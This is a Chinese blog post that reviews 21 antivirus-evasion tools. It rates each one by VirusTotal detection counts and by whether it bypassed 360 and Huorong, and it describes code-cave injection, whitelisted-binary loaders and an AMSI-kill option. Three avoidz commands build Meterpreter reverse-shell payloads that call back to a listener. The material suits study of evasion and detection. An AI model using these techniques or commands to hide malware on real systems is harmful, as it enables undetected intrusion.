**郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

[toc]

本文目录概览


# 1 前言

在了解了免杀的一些基础知识和Metasploit自带的一些免杀方式之后，我开始学习和研究市面上知名度比较高的免杀工具，从互联网上找到了大约30多个免杀工具，从中筛选出来了21个工具进行免杀测试和学习。

这些工具有的免杀效果也算一般，但可能只是因为发布时间长了一些，生成的payload都被杀软都加入了特征库，有几款工具都是在blackhat大会上发布的，甚至在免杀史上具有一些里程碑意义，但目前来看免杀效果也比较一般了。我们主要是学习他们的免杀原理和技巧，进而能打造自己的免杀秘术。

# 2 免杀效果概览

本文工具篇涉及的工具：Veil、Venom、Shellter、BackDoor-Factory、Avet、TheFatRat、Avoidz、Green-Hat-Suite、zirikatu、AVIator、DKMC、Unicorn、Python-Rootkit、DKMC、Unicorn、Python-Rootkit、ASWCrypter、nps_payload、GreatSCT、HERCULES、SpookFlare、SharpShooter、CACTUSTORCH、Winpayload等。

免杀测试主要是使用了metasploit或cobaltstrike生成的代码或程序进行免杀处理，在实验机(win7 x64)上安装了360全家桶和火绒进行本地测试，在`https://www.virustotal.com/`上进行在线查杀（**如果是自己做免杀，建议测试机不要联互联网，更不要上传到virustotal.com类似的平台上**）。

我从`virustotal.com`中选择了几款常见的杀软拿出来做个对比。


**几点说明：**

**1、上表中标识 √ 说明相应杀毒软件未检测出病毒，也就是代表了Bypass。**

**2、为了更好的对比效果，大部分测试payload均使用msf的`windows/meterperter/reverse_tcp`模块生成。**

**3、由于本机测试时只是安装了360全家桶和火绒，所以默认情况下360和火绒杀毒情况指的是静态+动态查杀。360杀毒版本`5.0.0.8160`(2020.01.01)，火绒版本`5.0.34.16`(2020.01.01)，360安全卫士`12.0.0.2002`(2020.01.01)。**

**4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为杀软查杀能力或免杀工具的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**




由于每种免杀方法和工具之前都发过文章一一介绍了，这里只是做一个总结和索引，所以本文中尽量只是简要文字描述，不然的话这一篇文章可能会太超长了。

# 3 工具免杀

## 3.1 Veil免杀(VT免杀率23/71)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/-PHVIAQVyU8QIpHwcpN4yw](https://mp.weixin.qq.com/s/-PHVIAQVyU8QIpHwcpN4yw)

Veil、Venom和Shellter是三大老牌免杀工具，虽然说人怕出名猪怕壮，但目前这几款免杀工具在扩展性和免杀能力方面依然有着不错的表现。Veil可以生成基于c、go、ruby、python、c#、perl、powershell等格式的payload，这点来说绝对强于其他绝大部分免杀工具。

Veil是一个用python写的免杀框架，可以将任意脚本或一段shellcode转换成Windows可执行文件，还能利用Metasploit框架生成相兼容的Payload工具，从而逃避了常见防病毒产品的检测。

Veil的手工安装比较费劲，好在有docker镜像，可以直接pull回本地安装使用。

- 3.1.1 使用veil直接生成exe(VT查杀率44/70)

veil可以直接生成支持msf的payload。测试时使用go语言生成msf的payload。

在测试主机执行`go_msf.exe`，msf中可上线。virustotal.com中44/71个报毒



虽然查杀率还比较高，不过火绒和360都能静态+动态免杀。比较遗憾的是生成的exe文件比较大，go语言生成的exe大约2M,python生成的exe大约4M，ruby生成的exe大约700K，相比msf原生态的exe大打多了。

- 3.1.2 使用veil+mingw-w64(VT查杀率23/71)

先用veil生成一个可以被 msf 利用的 `c_msf.c` 然后用mingw-w64 来编译



全程开启360卫士和杀毒以及火绒，编译、运行、上线都没有问题。

virustotal.com中23/71个报毒



## 3.2 Venom免杀(VT免杀率11/71)

操作便利★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/CbfxupSWEPB86tBZsmxNCQ](https://mp.weixin.qq.com/s/CbfxupSWEPB86tBZsmxNCQ)

Venom利用msfvenom（metasploit）生成不同的格式的shellcode，如（c | python | ruby | dll | msi | hta-psh）等，然后将生成的shellcode注入一个模板（例如：python），并使用类似gcc、mingw32或pyinstaller之类的编译器生成可执行文件。

Venom的一些功能还会直接调用`Veil-Evasion.py`，`unicorn.py`，`powersploit.py`等来直接创建免杀程序，避免重复造轮子。

经测试，使用venom生成exe后门，virustotal.com中19/71个报毒


使用venom生成dll后门，virustotal.com中11/70个报毒，而且能过微软和卡巴。



在venom生成编译的过程中可以看到他生成的shellcode其实是直接调用的msfvenom，而且在最后也可以和msf联动进行监听，还支持apache的web分发，很多模块都能和msf无缝对接，虽然被杀软盯的紧但免杀体验还是不错的。

## 3.3 Shellter免杀(VT免杀率7/69)

操作便利★★★★★

免杀效果★★★★★

推荐指数★★★★★

详细文章链接：[https://mp.weixin.qq.com/s/ASnldn6nk68D4bwkfYm3Gg](https://mp.weixin.qq.com/s/ASnldn6nk68D4bwkfYm3Gg)

Shellter是一个开源的免杀工具，利用动态Shellcode注入或者命令来实现免杀的效果。

Shellter安装非常简单，使用也非常便捷，而且生成的payload免杀效果也都比较好，windows和linux下都可以使用，实在是居家旅行、**灭口必备良药。我是用的自动模式进行生产payload,你可以根据自己的需要进行手动配置，这样生成的payload免杀效果会更好。

因为Shellter生成的shellcode是动态的，所以被查杀的几率也有所不同，测试过几次自动化生成的payload，最好的秒杀效果是4/71，最差的15/70，整体来说也算不错了。

我就直接用kali自带的shellter进行演示，需要提前准备一个pe文件作为被注入程序。


还是选择`windows/meterpreter/reverse_tcp`作为payload



全程自动化生成，最终的生成文件会替换原来的`putty.exe`。

在测试机中执行生成的`putty.exe`，360和火绒均可免杀



msf正常上线，virustotal.com中7/69个报毒，卡巴、瑞星、微软三个都没bypass。。



## 3.4 BackDoor-Factory免杀(VT免杀率13/71)

操作便利★★

免杀效果★★★★★

推荐指数★★★★★

详细文章链接：[https://mp.weixin.qq.com/s/A30JHhXhwe45xV7hv8jvVQ](https://mp.weixin.qq.com/s/A30JHhXhwe45xV7hv8jvVQ)

BackDoor-factory，又称后门工厂(BDF)，BDF是也是一款老牌的免杀神器，其作者曾经在2015年的blackhat大会上介绍过该工具。该工具还有很强大的一些其他功能，比如加私钥证书、CPT等等。但是作者已经于2017年停止更新，免杀效果就算现在来看也还算不错的。

利用backdoor-factory，用户可以在不破坏原有可执行文件的功能的前提下，在文件的代码裂隙中插入恶意代码Shellcode。当可执行文件被执行后，就可以触发恶意代码。Backdoor Factory不仅提供常用的脚本，还允许嵌入其他工具生成的Shellcode，如Metasploit。

原理：可执行二进制文件中有大量的00,这些00是不包含数据的,将这些数据替换成payload,并且在程序执行的时候,jmp到代码段,来触发payload。backdoor-factory是把shellcode插入到一个正常的exe文件的代码"缝隙"中，类似于捆绑但不是捆绑，所以需要提前准备一个被捆绑的宿主exe文件。

当使用BackDoor-Factory直接生成免杀后门时，virustotal.com中13/69个报毒。



还可以使用自己定义的shellcode，virustotal.com中14/71个报毒




## 3.5 Avet免杀(VT免杀率17/71)

操作方便★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/EIfqAbMC8HoC6xcZP9SXpA](https://mp.weixin.qq.com/s/EIfqAbMC8HoC6xcZP9SXpA)

Avet全称`AntiVirus Evasion Tool`，2017年在blackhat大会上公开演示，可对shellcode，exe和dll等多种载荷进行免杀处理，使用了多种不同的免杀技术，具有较好的免杀效果，据说在blackhat大会上演示时免杀效果震撼全场。

生成的payload在virustotal.com中17/71个报毒



可能是因为知名度太高，默认输出的payload免杀能力只能算是一般，测试了几个模块，最好的免杀是13/71，最差的是36/71，不过相比msf原生的免杀已经好很多了。

而且Avet提供了强大的自定义功能，在build文件夹下可以看到所有的payload生成脚本，很多参数都可以自己设定。Avet框架也是比较成熟的，可以轻松的进行二次开发，很容易能开发出来自己的专用免杀工具。

## 3.6 TheFatRat免杀(VT免杀率22/70)

操作便利★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/zOvwfmEtbkpGWWBn642ICA](https://mp.weixin.qq.com/s/zOvwfmEtbkpGWWBn642ICA)

TheFatRat创建的后门或者payload，可以在Linux，Windows，Mac和Android上等多种平台上执行，可生成exe、apk、sh、bat、py等多种格式。TheFatRat可以和msf无缝对接，并且集成内置了Fudwin、Avoid、backdoor-factory等多个免杀工具，对powershell的免杀姿势尤其多样。

TheFatRat创建的后门格式和支持的平台比较多样化，而且还支持生成CDROM/U盘中能自动运行(生成AutoRun文件)的后门文件，并且可以对payload更改图标，具有一定伪装效果。

使用TheFatRat生成ps1-exe，virustotal.com中22/70个报毒



使用TheFatRat生成加壳exe，virustotal.com中12/70个报毒



使用TheFatRat编译C#+powershell生成exe，virustotal.com中37/71个报毒



TheFatRat的很多免杀方式是借助于msfvenom编码、upx等加壳压缩、c/c#编译等将powershell混淆后编译成exe或bat文件，但有些在执行时还是会调用powershell，而powershell的调用已经被各大杀软盯的很紧了，所以查杀效果只能算是一般了。

## 3.7 Avoidz免杀(VT免杀率23/71)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/TnfTXihlyv696uCiv3aWfg](https://mp.weixin.qq.com/s/TnfTXihlyv696uCiv3aWfg)

avoidz是一个比较使用比较简单的小工具，利用msf生成powershell的shellocde，然后利用c#、python、go、ruby等语言对shellcode进行编译生成exe而达到免杀的效果，套路比较简单，静态检测查杀率还算可以，但行为检测就很容易被查杀出来，和TheFatRat具有相同的缺陷。倒是可以借鉴下他的原理，自己写个免杀工具。

- 使用avoidz编译C#生成exe(VT免杀率23/68)

提供3种C代码编译成exe的方式，想了解详情的可以`cat avoidz.rb`查看具体区别。

我以第一种为例进行测试

```
./avoidz.rb -h 10.211.55.2 -p 3333 -m windows/meterpreter/reverse_tcp -f c1
```



执行后可正常上线。开启杀软进行测试，静态测试没问题，行为检测马上露馅。



virustotal.com中23/68个报毒



- 使用avoidz编译python生成exe(VT免杀率11/68)

使用python生成exe文件
```
./avoidz.rb -h 10.211.55.2 -p 3333 -m windows/meterpreter/reverse_tcp -f py
```

静态查杀没问题，行为检测依旧被拦



virustotal.com中11/68个报毒




- 使用avoidz编译golang生成exe(VT免杀率23/71)

使用go生成exe文件
```
./avoidz.rb -h 10.211.55.2 -p 3333 -m windows/meterpreter/reverse_tcp -f go
```

go版本的静态查杀都没通过，行为检测依据被拦



virustotal.com中23/71个报毒




## 3.8 Green-Hat-Suite免杀(VT免杀率23/70)

操作便利★★★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/MVJTXOIqjgL7iEHrnq6OJg](https://mp.weixin.qq.com/s/MVJTXOIqjgL7iEHrnq6OJg)

Green-Hat-Suite是国内大佬`Green-m`的大作，`Green-m`大佬在freebuf和自己博客上`https://green-m.me/`写了很多免杀相关的文章，开始的几篇文章里面有一些知识点就是从他那学到的，而且msfvenom命令自动补全脚本也是出自他之手，之前有的知识点写的不太准备大佬也热情的给予指正，万分感谢！

Green-Hat-Suite也是和msf无缝对接的免杀工具，使用ruby开发，可在linux/windows上安装，使用非常简单，虽然已经接近两年没有更新了，但目前来看免杀效果仍然很不错。

virustotal.com中23/70个报毒



Green-Hat-Suite调用了msfvenom进行随机编码生成shellcode，然后Green-Hat-Suite对shellcode进行多重免杀处理混淆，并最终编译生成不同的exe后门文件。虽然原理不算复杂，但两年前的作品，至今来说免杀效果仍很不错。


## 3.9 zirikatu免杀(VT免杀率39/71)

操作便利★★★★

免杀效果★★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/5xLuu5UfF4cQbCq_6JeqyA](https://mp.weixin.qq.com/s/5xLuu5UfF4cQbCq_6JeqyA)

zirikatu是一个用bash编写的小脚本，依赖于msf、mono、mcs等软件，也是调用msfvenom生成shellcode,然后将shellcode嵌入C#代码，试用Mcs编译生成exe后门。

Mono可以让.NET程序跨平台运行在Linux,BSD,Windows,MacOS,Sun Solaris,Wii,索尼PlayStation,苹果iPhone等几乎所有常见的操作系统之上。从Mono2.11版本开始，采用的编译器叫mcs，它的作用是将C#编译为CIL（Common Language Infrastructure，通用中间语言，也叫MSIL微软中间语言，这个语言能运行在所有支持CIL的环境中）

virustotal.com中39/71个报毒



zirikatu利用msfvenom生成shellcode，之后再进行一定处理，编译生成exe。原理比较简单，操作比较方便，免杀效果相比Green-Hat-Suite来说虽然一般，但能过360、火绒和瑞星的确有点出人意料。

## 3.10 AVIator免杀(VT免杀率25/69)

操作便利★★★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/JYMq_qHvnslVlqijHNny8Q](https://mp.weixin.qq.com/s/JYMq_qHvnslVlqijHNny8Q)

AVIator使用AES加密来加密给定的Shellcode加密，生成一个包含加密有效负载的可执行文件，然后使用各种注入技术将shellcode解密并注入到目标系统，从而绕过杀毒软件的检测。

virustotal.com中25/69个报毒



AVIator使用非常简单，小巧便携。可以将shellcode注入explorer、notepad或其他自定义程序，免杀效果还算可以，能过360杀毒和火绒动态和静态检测，瑞星静态查杀也可通过。

## 3.11 DKMC免杀(VT免杀率8/55)

操作便利★★★

免杀效果★★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/UZqOBQKEMcXtF5ZU7E55Fg](https://mp.weixin.qq.com/s/UZqOBQKEMcXtF5ZU7E55Fg)

DKMC是Don't Kill My Cat (DKMC)的简称，谷歌翻译为"不要杀害我的小猫咪"，这个名字也是挺少女心的...DKMC是一种生成混淆的shellcode的工具，并把shellcode合成到图像文件中，最终依靠PowerShell执行最终的shellcode有效负载。

virustotal.com上BMP文件的查杀率为5/55，查杀出来为BMP木马



virustotal.com上ps代码的查杀率为8/55，判断ps下载行为。



DKMC主要把shellcode注入到bmp图像中，然后使用powershell来执行其中的shellcode，但是很多杀软都会监测powershell的执行动作，所以virustotal.com的静态检测不足以说明什么。

## 3.12 Unicorn免杀(VT免杀率29/56)

操作便利★★★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/y7P6bvHRFes854EAHAPOzw](https://mp.weixin.qq.com/s/y7P6bvHRFes854EAHAPOzw)

Magic Unicorn是一个比较简单的小工具，主要是基于Matthew Graeber提出的PowerShell攻击技术以及David Kennedy和Josh Kelly 提出的powershell bypass技术，把所有payload都转换成powershell代码。

Magic Unicorn支持cobalt strike、Metasploit和自定义的shellcode。

virustotal.com上`ps1.exe`文件的查杀率为36/69，转exe后略微有点惨。



生成了一个hta文件进行测试，virustotal.com上查杀率为29/56



Unicorn使用比较简单，可以生成powershell代码、macro宏代码、hta、dde等格式的payload文件，可以在社工时直接使用，不过因为生成的代码关键字比较明显，所以静态查杀很多都没通过，只能说生成代码多样但免杀效果一般。

## 3.13 Python-Rootkit免杀(VT免杀率7/70)

操作便利★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/OzO8hv0pTX54ex98k96tjQ](https://mp.weixin.qq.com/s/OzO8hv0pTX54ex98k96tjQ)

Python-Rootkit，2017年开源的一款工具，当时号称Bypass all anti-virus，主要是对python代码进行多次编码，然后利用py2exe把python代码打包成exe，其实最终执行的是powershell命令，使用了`PowerSploit`的`Invoke-Shellcode.ps1`来反弹msf的shell。

程序还添加了后门持续化的功能，大体就是10秒钟检测一次连接是否正常，如果连接不存在就再重连msf，另外还使用了注册表添加了自启动项。

virustotal.com上查杀率为7/69，如果有动态检测，估计这个查杀率会非常高。




Python-Rootkit在测试中因为msf5一直没法上线折腾了很长时间，官方issue居然没有反馈这个问题的，后来调试了半天发现是`Invoke-Shellcode.ps1`和msf的问题。

免杀效果整体感觉一般，还是python生成exe，执行后调用powershell下载`Invoke-Shellcode.ps1`，然后反弹shell，应该很容易触发杀软的行为检测。

## 3.14 ASWCrypter免杀(VT免杀率19/57)

操作便利★★★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/tT1i55swRWIYiEdxEWElSQ](https://mp.weixin.qq.com/s/tT1i55swRWIYiEdxEWElSQ)

ASWCrypter是2018年开源的免杀工具，原理比较简单，使用msf生成hta代码，然后使用python脚本对hta代码进行一定编码处理，生成新的hta后门文件，从而达到免杀效果。

生成hta后门文件，virustotal.com上查杀率为19/57



ASWCrypter是使用msfvenom生成基于powershell的hta后门文件，然后进行编码处理，达到一定的免杀效果，不过因为会调用powershell，行为检测还是很容易被检测出来。

## 3.15 nps_payload免杀(VT免杀率3/57)

操作便利★★★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/XmSRgRUftMV3nmD1Gk0mvA](https://mp.weixin.qq.com/s/XmSRgRUftMV3nmD1Gk0mvA)

`nps_payload`是2017年开源的工具，安装使用都比较简单,`nps_payload`可以生成基于msbuild的xml文件和独立执行的hta文件，并对xml文件和hta文件做了一定的混淆免杀，从而达到免杀的效果。

Microsoft Build Engine是一个用于构建应用程序的平台，此引擎也被称为msbuild，它为项目文件提供一个XML模式，该模式控制构建平台如何处理和构建软件。Visual Studio使用MSBuild，但它不依赖于Visual Studio。通过在项目或解决方案文件中调用msbuild.exe，可以在未安装Visual Studio的环境中编译和生成程序。

使用`nps_payload`生成的hta文件，virustotal.com上查杀率为7/57



`nps_payload`只是使用了白名单`msbuild.exe`方法，`nps_payload`还对生成的文件进行了混淆处理，使用非常简单，免杀效果也是不错的。

## 3.16 GreatSCT免杀(VT免杀率14/56)

操作便利★★★★

免杀效果★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/s9DFRIgpvpE-_MneO0B_FQ](https://mp.weixin.qq.com/s/s9DFRIgpvpE-_MneO0B_FQ)

GreatSCT可以基于Metasploit、自定义shellcode、powershell等生成payload，然后可利用多种白名单程序进行加载，从而达到免杀的目的。

支持的6种白名单方式:

1、Installutil.exe： 安装程序工具是一款命令行工具，允许您通过运行安装程序组件来安装和卸载特定程序集中的服务器资源。

2、Msbuild.exe： Microsoft Build Engine是一个用于构建应用程序的平台。这个引擎，也称为MSBuild。

3、Mshta.exe： Mshta.exe运行Microsoft HTML应用程序，Windows OS实用程序负责运行HTA（HTML应用程序）文件。我们可以运行JavaScript或Visual的HTML文件。

4、Regasm.exe：程序集注册工具读取程序集内的元数据，并将必要的记录添加到注册表中,从而允许COM客户端透明地创建.NET框架类。

5、Regsvcs.exe： RegSvcs表示Microsoft .NET远程注册表服务，它以.NET服务安装著称。

6、Regsvr32.exe： Regsvr32是一个命令行实用程序，用于在Windows注册表中注册和取消注册OLE控件，例如DLL和ActiveX控件。

生成基于白名单Msbuild.exe的文件，virustotal.com上`payload.xml`文件查杀率为14/56



生成单个可执行`payload.exe`文件，virustotal.com上查杀率为30/69，这个exe文件查杀率略高。



GreatSCT由于是基于白名单的文件加载，所以生成的.xml或.dll之类免杀效果比较好，而.exe文件免杀效果就比较一般了，所以可以根据具体情境去结合使用。GreatSCT提供了6中白名单方式，综合免杀效果还算可以。


## 3.17 HERCULES免杀(VT免杀率29/70)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/Rkr9lixzL4tiL89r10ndig](https://mp.weixin.qq.com/s/Rkr9lixzL4tiL89r10ndig)

HERCULES，2017年的免杀工具，可以直接生成msf可用的payload并进行免杀，也可以对自定义payload进行免杀，还可以进行后门文件捆绑，并可进行upx加壳，使用比较简单，但安装可能遇到不少问题。

HERCULES也是和msf无缝对接的免杀工具，免杀相对也比较简单一些，具体免杀的实现可以查看`HERCULES/src/EGESPLOIT/RSE/BypassAV.go`文件，使用了传统的添加花指令的方式进行免杀。

virustotal.com上查杀率为29/70



HERCULES免杀原理相对简单，对payload添加无用代码和多次跳转的方式进行免杀处理，从实际测试来看免杀效果只能说是一般，据官方演示在2017年的时候免杀效果应该很棒。可以对其免杀代码进行定制化修改，做成自己轮子工具，别往`virustotal.com`上传，这样被查杀概率也会小一些。

## 3.18 SpookFlare免杀(VT免杀率16/67)

操作便利★★★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：[https://mp.weixin.qq.com/s/LfuQ2XuD7YHUWJqMRUmNVA](https://mp.weixin.qq.com/s/LfuQ2XuD7YHUWJqMRUmNVA)

SpookFlare，2018年开源的工具，目前还在更新，使用了多种方式进行bypass。可直接生成基于Meterpreter、Empire、Koadic等平台的的shellcode，并对代码进行混淆、二次编码、随机填充字符串等，从而达到较好的免杀效果。

SpookFlare支持生成4类payload，分别是msf的exe程序(需要自己编译)、msf的ps1脚本(做了免杀混淆)、hta文件、office宏代码。

生成exe文件，virustotal.com上查杀率为16/67，在exe里面能算一般以上了。



SpookFlare使用了多种方式进行免杀，exe的免杀可能效果不算太出色，但是对powershell脚本和hta文件等的免杀做的还是不错的，基本静态查杀都能bypass。

## 3.19 SharpShooter免杀(VT免杀率22/57)

操作便利★★★★

免杀效果★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/EyvGfWXLbxkHe7liaNFhGg](https://mp.weixin.qq.com/s/EyvGfWXLbxkHe7liaNFhGg)

Sharpshooter，2018年开源的工具，知名度较高，基于python2开发，是比较专业的Payload生成框架，支持反沙箱、分阶段和无阶段的Payload执行，并能够生成hta、js、jse、vba、vbe、vbs、wsf等多种格式的payload，创建的Payload可用于编译执行任意C#源代码。Sharpshooter还能对Payload使用随机密钥进行RC4加密，还能检测沙箱，从而避开杀软的检测。

生成hta后门文件，virustotal.com上查杀率为22/57



SharpShooter算是比较复杂的一个框架，支持多种payload，能在.NET框架的v2、v3和v4版本上都能执行，涵盖了绝大部分的Windows系统。但也因为SharpShooter的知名度比较高，默认生成的payload已经被查杀的比较严重，但其实现方式和思路是比较值得人学习的。

而且在2019年1月Sharpshooter加入了AMSI的bypass模板，使用参数`--amsi amsienable`可以使用该模块来Kill掉AMSI，感兴趣的可以试一下。


## 3.20 CACTUSTORCH免杀(VT免杀率23/57)

操作便利★★★★

免杀效果★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/g0CYvFMsrV7bHIfTnSUJBw](https://mp.weixin.qq.com/s/g0CYvFMsrV7bHIfTnSUJBw)

在2017年4月由James Forshaw开源了一个工具DotNetToJScript，能够利用JS或者Vbs等脚本加载.Net程序。在DotNetToJScript发布后，有几款工具根据其原理开发出来，比如CACTUSTORCH、SharpShooter、StarFighters等等。

而CACTUSTORCH和SharpShooter都同一个组织开发，2017年发布，主要使用vbs或js执行C#的二进制payload，提供多种方式绕过杀软，支持js、vbs、vbe、vba、hta等多种格式，还提供了支持Cobalt Strike的cna文件。


CACTUSTORCH生成的脚本可以用于执行C#的二进制文件，CACTUSTORCH在免杀方面有以下几个特性：

1、在payload中不使用Kernel32 API声明，避免被杀软检测

2、可以在C＃二进制内机械能混淆

3、可任意指定目标二进制程序进行注入

4、允许指定任意shellcode

5、不产生PowerShell.exe

6、不需要Powershell

7、不需要office

8、不调用WScript.Shell

9、不需要分段，因为完整的无阶段shellcode可以包含在传送的payload内

10、没有静态父对子进行生成，用户可以更改wscript.exe生成的内容


以生成js脚本为例进行测试,virustotal.com上查杀率为27/57，这个查杀率还是挺高的。



生成vbs脚本,virustotal.com上查杀率为23/57



因为CACTUSTORCH也是基于DotNetToJScript来实现免杀的工具，同类工具里知名度比较高，所以被查杀的有些惨不忍睹，不过能直接过360和火绒也算一个小亮点了。杀软查杀其脚本主要是里面很多代码关键字都被列入了特征字符，感兴趣的可以尝试修改其脚本代码做二次免杀。

## 3.21 Winpayloads免杀(VT免杀率18/70)

操作便利★★

免杀效果★★★★

推荐指数★★★★

详细文章链接：

Winpayloads，2019年开源的免杀payload生成工具，可以和Msf无缝对接，自身也可以作为独立远控软件来试用。主要是使用python对shellcode进行处理，然后编译成exe文件，从而达到免杀的效果。

Winpayloads的常规安装比较复杂，依赖的软件比较多，需要安装winbind、impacket、Wine、wine32、Pywin32、pyinstaller、PsexecSpray、pycrypto等等，所以官方后来直接把常规安装给去掉了，直接建议使用docker，docke安装起来就非常简单了。

生成独立可执行后门exe文件，virustotal.com平台查杀率也为18/70



Winpayloads使用比较简便，生成的payload免杀效果也是不错的，使用了多种技术来免杀和实施后渗透，唯一的缺点就是生成的payload都有点偏大，大约2.7M左右。

# 4 工具篇小结

工具篇主要是对21款免杀工具进行了学习和研究，虽然过程比较枯燥，但的确学到了很多东西，有些软件使用了比较简单的技巧但免杀效果却非常好。

比如使用了程序"缝隙"插入技术的Shellter和BackDoor-Factory，免杀效果也很不错；

还有一些使用了白名单技术的工具，如nps_payload、GreatSCT、Evasion等工具，对xml或hta等进行免杀处理，然后使用白名单程序进行执行。

还有一些是对powershell进行免杀，如veil、Venom、Unicorn、DKMC、Unicorn、SpookFlare等，对ps1代码的处理方式也是百花齐放。

还有使用了python、go等代码嵌入处理payload然后编译exe的，比如Venom、avet、BackDoor-Factory、Python-Rootkit、HERCULES、Winpayloads等等。

通过研究学习这些免杀工具，从而揭开免杀工具的神秘面纱，之后你会发现其实自己做一个通用的免杀工具也不是太难，下一步打算向`Green-m`大佬学习，也能自己写一个免杀工具。
 